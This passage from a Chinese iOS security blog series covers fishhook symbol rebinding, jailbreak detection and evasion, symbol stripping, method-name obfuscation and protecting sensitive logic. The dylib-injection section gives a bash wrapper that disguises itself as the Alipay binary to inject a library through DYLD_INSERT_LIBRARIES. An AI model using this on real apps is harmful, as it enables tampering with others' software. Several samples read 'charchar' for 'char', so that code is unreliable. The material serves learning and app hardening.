


### <a name="markdown-af17"></a>iOS安全攻防（十七）：Fishhook


众所周知，Objective-C的首选hook方案为Method Swizzle，于是大家纷纷表示核心内容应该用C写。
接下来进阶说说iOS下C函数的hook方案，先介绍第一种方案————[fishhook](https://github.com/facebook/fishhook) .


什么是fishhook

fishhook是facebook提供的一个动态修改链接Mach-O符号表的开源工具。


什么是Mach-O
Mach-O为Mach Object文件格式的缩写,也是用于iOS可执行文件，目标代码，动态库，内核转储的文件格式。
Mach-O有自己的dylib规范。


fishhook的原理
详见官方的How it works，这里我作个简要说明。
dyld链接2种符号，lazy和non-lazy，fishhook可以重新链接/替换本地符号。





如图所示，__DATA区有两个section和动态符号链接相关：__nl_symbol_ptr 、__la_symbol_ptr。__nl_symbol_ptr为一个指针数组，直接对应non-lazy绑定数据。__la_symbol_ptr也是一个指针数组，通过dyld_stub_binder辅助链接。<mach-o/loader.h>的section头提供符号表的偏移量。
图示中，1061是间接符号表的偏移量，*（偏移量+间接符号地址）=16343，即符号表偏移量。符号表中每一个结构都是一个nlist结构体，其中包含字符表偏移量。通过字符表偏移量最终确定函数指针。

fishhook就是对间接符号表的偏移量动的手脚，提供一个假的nlist结构体，从而达到hook的目的。


fishhook替换符号函数：

[objc] view plain copy

    int rebind_symbols(struct rebinding rebindings[], size_t rebindings_nel) {  
      int retval = prepend_rebindings(rebindings, rebindings_nel);  
      if (retval < 0) {  
        return retval;  
      }  
      // If this was the first call, register callback for image additions (which is also invoked for  
      // existing images, otherwise, just run on existing images  
      if (!rebindings_head->next) {  
        _dyld_register_func_for_add_image(rebind_symbols_for_image);  
      } else {  
        uint32_t c = _dyld_image_count();  
        for (uint32_t i = 0; i < c; i++) {  
          rebind_symbols_for_image(_dyld_get_image_header(i), _dyld_get_image_vmaddr_slide(i));  
        }  
      }  
      return retval;  
    }  


关键函数是 _dyld_register_func_for_add_image，这个函数是用来注册回调，当dyld链接符号时，调用此回调函数。 rebind_symbols_for_image 做了具体的替换和填充。


fishhook替换Core Foundation函数的例子


以下是官方提供的替换Core Foundation中open和close函数的实例代码
[objc] view plain copy

    #import <dlfcn.h>  
      
    #import <UIKit/UIKit.h>  
      
    #import "AppDelegate.h"  
    #import "fishhook.h"  
      
    static int (*orig_close)(int);  
    static int (*orig_open)(const charchar *, int, ...);  
      
    void save_original_symbols() {  
      orig_close = dlsym(RTLD_DEFAULT, "close");  
      orig_open = dlsym(RTLD_DEFAULT, "open");  
    }  
      
    int my_close(int fd) {  
      printf("Calling real close(%d)\n", fd);  
      return orig_close(fd);  
    }  
      
    int my_open(const charchar *path, int oflag, ...) {  
      va_list ap = {0};  
      mode_t mode = 0;  
      
      if ((oflag & O_CREAT) != 0) {  
        // mode only applies to O_CREAT  
        va_start(ap, oflag);  
        mode = va_arg(ap, int);  
        va_end(ap);  
        printf("Calling real open('%s', %d, %d)\n", path, oflag, mode);  
        return orig_open(path, oflag, mode);  
      } else {  
        printf("Calling real open('%s', %d)\n", path, oflag);  
        return orig_open(path, oflag, mode);  
      }  
    }  
      
    int main(int argc, charchar * argv[])  
    {  
      @autoreleasepool {  
        save_original_symbols();  
        //fishhook用法  
        rebind_symbols((struct rebinding[2]){{"close", my_close}, {"open", my_open}}, 2);  
      
        // Open our own binary and print out first 4 bytes (which is the same  
        // for all Mach-O binaries on a given architecture)  
        int fd = open(argv[0], O_RDONLY);  
        uint32_t magic_number = 0;  
        read(fd, &magic_number, 4);  
        printf("Mach-O Magic Number: %x \n", magic_number);  
        close(fd);  
      
        return UIApplicationMain(argc, argv, nil, NSStringFromClass([AppDelegate class]));  
      }  
    }  


注释//fishhook用法 处

[objc] view plain copy

    rebind_symbols((struct rebinding[2]){{"close", my_close}, {"open", my_open}}, 2);  


传入rebind_symbols的第一个参数是一个结构体数组，大括号中为对应数组内容。


不得不说，facebook忒NB。


### <a name="markdown-af19"></a>iOS安全攻防（十九）：基于脚本实现动态库注入


MobileSubstrate可以帮助我们加载自己的动态库，于是开发者们谨慎的采取了对MobileSubstrate的检索和防御措施。

那么，除了依靠MobileSubstrate帮忙注入dylib，还有别的攻击入口吗？


理理思路，条件、目的很明确：
1）必须在应用程序启动之前，把dylib的环境变量配置好
2）dylib的位置必须能被应用程序放问到
3）最后再启动应用程序


啊哈，原汁原味，走bash！


在点击应用程序图标-->程序启动这个过程中，在我们看来程序是被动执行的。为了让特定功能的脚本被执行，我们可以把脚本改成应用程序二进制的名字伪装成应用程序，让系统调用启动。在脚本中，配置好dylib，然后再手动启动真的应用程序，假装什么也没发生，挥一挥衣袖不带走一片云彩～

将真的支付宝程序改名为oriPortal：
[plain] view plain copy

    mv Portal oriPortal  


将待执行的脚本改名为支付宝：
[plain] view plain copy

    mv Portal.sh Portal  


脚本代码：

[plain] view plain copy

    #!/bin/bash  
      
    #得到第一个参数  
    C=$0  
      
    #第一个参数是二进制的绝对路径 比如 :  
    #/private/var/mobile/Applications/4763A8A5-2E1D-4DC2-8376-6CB7A8B98728/Portal.app/  
    #截取最后一个 / 之前的内容  
    C=${C%/*}  
      
    #库和二进制放在一起  
    export DYLD_INSERT_LIBRARIES=${C:-.}/wq.dylib  
    #执行原来APP $@ 别忘了把原来的参数保留  
    exec "${C:-.}"/oriPortal "$@"  


结果不尽人意，失败了……

错误信息如下：


在打开某个加密信息时出了错误，大概猜一下应该是类似加密签名校验的步骤，但是我们无法去了解其中详细的操作到底是什么样的，没关系，那么就把原始的可执行文件环境全部给他造出来，因为检验文件属性肯定不会带着路径信息的。

备份一份Portal.app目录Portal_ori.app，修改脚本为：

[plain] view plain copy

    #!/bin/bash  
    C=$0  
    C=${C%/*}  
    export DYLD_INSERT_LIBRARIES=${C:-.}/wq.dylib  
    exec "${C:-.}"/../Portal_ori.app/Portal "$@"  


运行支付宝app验证一下，
好消息是，在iOS6上，成功加载了动态库wq.dylib
坏消息是，在iOS7上，失败了，错误信息如下：


应该是因为iOS7的沙盒机制升了级，把我们这套小把戏拦在门外了……
那又怎么样，面包总会有的～


### <a name="markdown-af20"></a>iOS安全攻防（二十）：越狱检测的攻与防


在应用开发过程中，我们希望知道设备是否越狱，正以什么权限运行程序，好对应采取一些防御和安全提示措施。

iOS7相比之前版本的系统而言，升级了沙盒机制，封锁了几乎全部应用沙盒可以共享数据的入口。即使在越狱情况下，限制也非常多，大大增加了应用层攻击难度。比如，在iOS7之前，我们可以尝试往沙盒外写文件判断是否越狱，但iOS7越狱后也无该权限，还使用老方法检测会导致误判。

那么，到底应该如何检测越狱呢？攻击者又会如果攻破检测呢？本文就着重讨论一下越狱检测的攻与防。


 


首先，你可以尝试使用NSFileManager判断设备是否安装了如下越狱常用工具：
/Applications/Cydia.app
/Library/MobileSubstrate/MobileSubstrate.dylib
/bin/bash
/usr/sbin/sshd
/etc/apt


但是不要写成BOOL开关方法，给攻击者直接锁定目标hook绕过的机会

[objc] view plain copy

    +(BOOL)isJailbroken{  
        if ([[NSFileManager defaultManager] fileExistsAtPath:@"/Applications/Cydia.app"]){  
            return YES;  
        }  
        // ...  
    }  


攻击者可能会改变这些工具的安装路径，躲过你的判断。


那么，你可以尝试打开cydia应用注册的URL scheme：

[objc] view plain copy

    if([[UIApplication sharedApplication] canOpenURL:[NSURL URLWithString:@"cydia://package/com.example.package"]]){  
         NSLog(@"Device is jailbroken");  
    }  


但是不是所有的工具都会注册URL scheme，而且攻击者可以修改任何应用的URL scheme。 


那么，你可以尝试读取下应用列表，看看有无权限获取：

[objc] view plain copy

    if ([[NSFileManager defaultManager] fileExistsAtPath:@"/User/Applications/"]){  
            NSLog(@"Device is jailbroken");  
            NSArray *applist = [[NSFileManager defaultManager] contentsOfDirectoryAtPath:@"/User/Applications/"  
                                                                                   error:nil];  
            NSLog(@"applist = %@",applist);  
    }  


越了狱的设备是可以获取到的：


攻击者可能会hook NSFileManager 的方法，让你的想法不能如愿。


那么，你可以回避 NSFileManager，使用stat系列函数检测Cydia等工具：

[objc] view plain copy

    #import <sys/stat.h>  
      
    void checkCydia(void)  
    {  
        struct stat stat_info;  
        if (0 == stat("/Applications/Cydia.app", &stat_info)) {  
            NSLog(@"Device is jailbroken");  
        }  
    }  


攻击者可能会利用 Fishhook原理 hook了stat。


那么，你可以看看stat是不是出自系统库，有没有被攻击者换掉：

[objc] view plain copy

    #import <dlfcn.h>  
      
    void checkInject(void)  
    {  
        int ret ;  
        Dl_info dylib_info;  
        int (*func_stat)(const charchar *, struct stat *) = stat;  
        if ((ret = dladdr(func_stat, &dylib_info))) {  
            NSLog(@"lib :%s", dylib_info.dli_fname);  
        }  
    }  


如果结果不是 /usr/lib/system/libsystem_kernel.dylib 的话，那就100%被攻击了。
如果 libsystem_kernel.dylib 都是被攻击者替换掉的……

那也没什么可防的大哥你随便吧……  


那么，你可能会想，我该检索一下自己的应用程序是否被链接了异常动态库。

列出所有已链接的动态库：

[objc] view plain copy

    #import <mach-o/dyld.h>  
      
    void checkDylibs(void)  
    {  
        uint32_t count = _dyld_image_count();  
        for (uint32_t i = 0 ; i < count; ++i) {  
            NSString *name = [[NSString alloc]initWithUTF8String:_dyld_get_image_name(i)];  
            NSLog(@"--%@", name);  
        }  
    }  


通常情况下，会包含越狱机的输出结果会包含字符串： Library/MobileSubstrate/MobileSubstrate.dylib 。


攻击者可能会给MobileSubstrate改名，但是原理都是通过DYLD_INSERT_LIBRARIES注入动态库。


那么，你可以通过检测当前程序运行的环境变量：

[objc] view plain copy

    void printEnv(void)  
    {  
        charchar *env = getenv("DYLD_INSERT_LIBRARIES");  
        NSLog(@"%s", env);  
    }  


未越狱设备返回结果是null，越狱设备就各有各的精彩了，尤其是老一点的iOS版本越狱环境。


### <a name="markdown-af22"></a>iOS安全攻防（二十二）：static和被裁的符号表

为了不让攻击者理清自己程序的敏感业务逻辑，于是我们想方设法提高逆向门槛。
本文就介绍一个防御技巧————利用static关键字裁掉函数符号。


原理

如果函数属性为 static ，那么编译时该函数符号就会被解析为local符号。
在发布release程序时（用Xcode打包编译二进制）默认会strip裁掉这些函数符号，无疑给逆向者加大了工作难度。


验证


写个demo验证一下上述理论，以一段创建Button的代码为例，对应补充一个static版本。

[objc] view plain copy

    id createBtn()  
    {  
        UIButton *btn = [[UIButton alloc]initWithFrame:CGRectZero];  
        [btn setFrame:CGRectMake(200, 100, 100, 100)];  
        [btn setBackgroundColor:[UIColor redColor]];  
        btn.layer.cornerRadius = 7.0f;  
        btn.layer.masksToBounds = YES;  
        return btn;  
    }  
      
    static id static_createBtn()  
    {  
        UIButton *btn = [[UIButton alloc]initWithFrame:CGRectZero];  
        [btn setFrame:CGRectMake(50, 100, 100, 100)];  
        [btn setBackgroundColor:[UIColor blueColor]];  
        btn.layer.cornerRadius = 7.0f;  
        btn.layer.masksToBounds = YES;  
        return btn;  
    }  


再来看一下反编的结果，对于createBtn()方法，我们可以得到它的伪代码：




函数名虽然面目全非，但是基本操作还是清晰的。

对于static_createBtn()方法呢，我们已经无法看到它任何直观的有价值信息了。


局限

当然这种方法也有局限性。正如你所知道的，static函数，只在本文件可见。


打破局限


怎么让别的文件也能调到本文件的static方法呢？
在本文件建造一个结构体，结构体里包含函数指针。把static函数的函数指针都赋在这个结构体里，再把这个结构体抛出去。
这样做的好处是，既隐藏了函数代码也丰富了调用方式。


### <a name="markdown-af23"></a>iOS安全攻防（二十三）：Objective-C代码混淆


class-dump可以很方便的导出程序头文件，不仅让攻击者了解了程序结构方便逆向，还让着急赶进度时写出的欠完善的程序给同行留下笑柄。

所以，我们迫切的希望混淆自己的代码。


混淆的常规思路


混淆分许多思路，比如：
1）花代码花指令，即随意往程序中加入迷惑人的代码指令

2）易读字符替换

等等
防止class-dump出可读信息的有效办法是易读字符替换。


Objective-C的方法名混淆


混淆的时机
我们希望在开发时一直保留清晰可读的程序代码，方便自己。

同时，希望编译出来的二进制包含乱七八糟的混淆后的程序代码，恶心他人。

因此，我们可以在Build Phrase 中设定在编译之前进行方法名的字符串替换。


混淆的方法
方法名混淆其实就是字符串替换，有2个方法可以，一个是#define，一个是利用tops。
利用#define的方法有一个好处，就是可以把混淆结果合并在一个.h中，在工程Prefix.pch的最前面#import这个.h。不导入也可以编译、导入则实现混淆。

单段的selector，如func: ，可以通过#define func 来实现字符串替换。
多段的selector，如a:b:c: ，可以通过分别#define a 、b、c 来实现字符串替换。


我的混淆工具

我写了个简易的混淆脚本，主要思路是把敏感方法名集中写在一个名叫func.list的文件中，逐一#define成随机字符，追加写入.h。

脚本如下：

[plain] view plain copy

    #!/usr/bin/env bash  
      
    TABLENAME=symbols  
    SYMBOL_DB_FILE="symbols"  
    STRING_SYMBOL_FILE="func.list"  
    HEAD_FILE="$PROJECT_DIR/$PROJECT_NAME/codeObfuscation.h"  
    export LC_CTYPE=C  
      
    #维护数据库方便日后作排重  
    createTable()  
    {  
        echo "create table $TABLENAME(src text, des text);" | sqlite3 $SYMBOL_DB_FILE  
    }  
      
    insertValue()  
    {  
        echo "insert into $TABLENAME values('$1' ,'$2');" | sqlite3 $SYMBOL_DB_FILE  
    }  
      
    query()  
    {  
        echo "select * from $TABLENAME where src='$1';" | sqlite3 $SYMBOL_DB_FILE  
    }  
      
    ramdomString()  
    {  
        openssl rand -base64 64 | tr -cd 'a-zA-Z' |head -c 16  
    }  
      
    rm -f $SYMBOL_DB_FILE  
    rm -f $HEAD_FILE  
    createTable  
      
    touch $HEAD_FILE  
    echo '#ifndef Demo_codeObfuscation_h  
    #define Demo_codeObfuscation_h' >> $HEAD_FILE  
    echo "//confuse string at `date`" >> $HEAD_FILE  
    cat "$STRING_SYMBOL_FILE" | while read -ra line; do  
        if [[ ! -z "$line" ]]; then  
            ramdom=`ramdomString`  
            echo $line $ramdom  
            insertValue $line $ramdom  
            echo "#define $line $ramdom" >> $HEAD_FILE  
        fi  
    done  
    echo "#endif" >> $HEAD_FILE  
      
      
    sqlite3 $SYMBOL_DB_FILE .dump  


操作步骤


1.将混淆脚本confuse.sh放到工程目录下 
mv confuse.sh your_proj_path/


2.修改Prefix.pch
打开Xcode，修改XXX-Prefix.ch ，添加混淆头文件:
[objc] view plain copy

    #ifdef __OBJC__  
        #import <UIKit/UIKit.h>  
        #import <Foundation/Foundation.h>  
        //添加混淆作用的头文件（这个文件名是脚本confuse.sh中定义的）  
        #import "codeObfuscation.h"  
    #endif  


3.配置Build Phase
在工程Build Phase中添加执行脚本操作，执行confuse.sh脚本，如图：



4.创建函数名列表func.list，写入待混淆的函数名，如:
-(void)sample;
-(void)seg1:(NSString *)string seg2:(NSUInteger)num;


就这样写：
sample
seg1
seg2


并将文件放置于与confuse.sh脚本同级
mv func.list your_proj_path/


5.编译查看结果
直接build，混淆脚本会在编译前运行，进行字符随机替换，并且每次build的随机字符不同，如图：


### <a name="markdown-af24"></a>iOS安全攻防（二十四）：敏感逻辑的保护方案

Objective-C代码容易被hook，暴露信息太赤裸裸，为了安全，改用C来写吧！


当然不是全部代码都要C来写，我指的是敏感业务逻辑代码。

本文就介绍一种低学习成本的，简易的，Objective-C逻辑代码重写为C代码的办法。


也许，程序中存在一个类似这样的类：

[objc] view plain copy

    @interface XXUtil : NSObject  
      
    + (BOOL)isVerified;  
    + (BOOL)isNeedSomething;  
    + (void)resetPassword:(NSString *)password;  
      
    @end  


被class-dump出来后，利用Cycript很容易实现攻击，容易被hook，存在很大的安全隐患。

想改，但是不想大改程序结构，肿么办呢？


把函数名隐藏在结构体里，以函数指针成员的形式存储。

这样做的好处是，编译后，只留了下地址，去掉了名字和参数表，提高了逆向成本和攻击门槛。


改写的程序如下：

[objc] view plain copy

    //XXUtil.h  
    #import <Foundation/Foundation.h>  
      
    typedef struct _util {  
        BOOL (*isVerified)(void);  
        BOOL (*isNeedSomething)(void);  
        void (*resetPassword)(NSString *password);  
    }XXUtil_t ;  
      
    #define XXUtil ([_XXUtil sharedUtil])  
      
    @interface _XXUtil : NSObject  
      
    + (XXUtil_t *)sharedUtil;  
    @end  


[objc] view plain copy

    //XXUtil.m  
    #import "XXUtil.h"  
      
    static BOOL _isVerified(void)  
    {  
        //bala bala ...  
        return YES;  
    }  
      
    static BOOL _isNeedSomething(void)  
    {  
        //bala bala ...  
        return YES;  
    }  
      
    static void _resetPassword(NSString *password)  
    {  
        //bala bala ...  
    }  
      
    static XXUtil_t * util = NULL;  
    @implementation _XXUtil  
      
    +(XXUtil_t *)sharedUtil  
    {  
        static dispatch_once_t onceToken;  
        dispatch_once(&onceToken, ^{  
            util = malloc(sizeof(XXUtil_t));  
            util->isVerified = _isVerified;  
            util->isNeedSomething = _isNeedSomething;  
            util->resetPassword = _resetPassword;  
        });  
        return util;  
    }  
      
    + (void)destroy  
    {  
        util ? free(util): 0;  
        util = NULL;  
    }  
    @end  


 最后，根据Xcode的报错指引，把以前这样的调用

[objc] view plain copy

    [XXUtil isVerified];  


对应改成：

[objc] view plain copy

    XXUtil->isVerified();  


就可以了。


是的，绝不费一点脑子。


